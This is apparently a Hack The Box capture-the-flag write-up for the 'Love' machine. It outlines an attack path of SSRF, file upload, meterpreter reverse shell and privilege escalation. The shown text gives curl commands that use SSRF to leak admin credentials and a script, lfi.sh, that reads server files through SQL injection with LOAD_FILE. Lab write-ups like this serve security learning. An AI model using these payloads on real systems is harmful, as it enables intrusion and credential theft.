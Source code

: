 ```
```

# Attack path
1. [Discover credentials to `love.htb` admin panel with SSRF vulnerability in `staging.love.htb`](#discover-credentials-to-lovehtb-admin-panel-with-ssrf-vulnerability-in-staginglovehtb)
2. [Discover arbitrary file upload vulnerability in `love.htb` admin panel](#discover-arbitrary-file-upload-vulnerability-in-lovehtb-admin-panel)
3. [Gain initial foothold wih `php/meterpreter/reverse_tcp` reverse shell uploaded using vulnerability in `candidates_add.php`](#gain-initial-foothold-wih-phpmeterpreterreverse_tcp-reverse-shell-uploaded-using-vulnerability-in-candidates_addphp)
4. [Upgrade `php/meterpreter/reverse_tcp` to `windows/x64/meterpreter/reverse_tcp`](#upgrade-phpmeterpreterreverse_tcp-to-windowsx64meterpreterreverse_tcp)
5. [Escalate to `Administartor` user using `exploit/windows/local/always_install_elevated`](#escalate-to-administartor-user-using-exploitwindowslocalalways_install_elevated)

### Discover credentials to `love.htb` admin panel with SSRF vulnerability in `staging.love.htb`

#### Add `love.htb` and `staging.love.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Love]
└─$ echo "$TARGET love.htb staging.love.htb" | sudo tee -a /etc/hosts
10.129.222.158 love.htb staging.love.htb
```

#### Use SSRF vulnerability in `staging.love.htb` to access web application at port 5000 and discover admin credentials
```
┌──(magicrc㉿perun)-[~]
└─$ curl -s http://staging.love.htb/beta.php -d "file=http://localhost:5000&read=Scan+file" | grep "Vote Admin Creds"
<strong>Vote Admin Creds admin: @LoveIsInTheAir!!!!
```

### Discover arbitrary file upload vulnerability in `love.htb` admin panel

#### Prepare LFI exploit using SQLi in `UPDATE` query in `love.htb` admin panel
```
┌──(magicrc㉿perun)-[~/attack/HTB Love]
└─$ curl -s -c cookies.txt http://love.htb/admin/index.php -d 'username=admin&password=@LoveIsInTheAir!!!!&login=' -o /dev/null && \
curl -s -b cookies.txt http://love.htb/admin/positions_add.php -d 'description=Position&max_vote=1&add=' -o /dev/null && \
POSITION_ID=$(curl -s -b cookies.txt http://love.htb/admin/positions.php | grep -o "data-id='[0-9]\+'" | grep -o "[0-9]\+" | tail -1) && \
curl -s -b cookies.txt http://love.htb/admin/candidates_add.php -d "firstname=Firstname&lastname=Lastname&position=$POSITION_ID&platform=Platform&add=" -o /dev/null && \
{ cat <<'EOF'> lfi.sh
CANDIDATE_ID=$(curl -s -b cookies.txt http://love.htb/admin/candidates.php | grep -o "data-id='[0-9]\+'" | grep -o "[0-9]\+" | tail -1)
POSITION_ID=$(curl -s -b cookies.txt http://love.htb/admin/positions.php | grep -o "data-id='[0-9]\+'" | grep -o "[0-9]\+" | tail -1)
ENCODED_FILE=$(echo -n "$1" | jq -sRr @uri)
curl -s 'http://love.htb/admin/candidates_edit.php' -d "id=$CANDIDATE_ID&firstname=Firstname%27%2C+platform+%3D+LOAD_FILE%28%27$ENCODED_FILE%27%29+WHERE+id+%3D+%27$CANDIDATE_ID%27%3B+--+&lastname=Lastname&position=$POSITION&platform=platform&edit=" -o /dev/null && \
curl -s 'http://love.htb/admin/candidates_row.php' -d "id=$CANDIDATE_ID" | tail -n +3 | jq -r .platform
EOF
} && chmod +x ./lfi.sh
```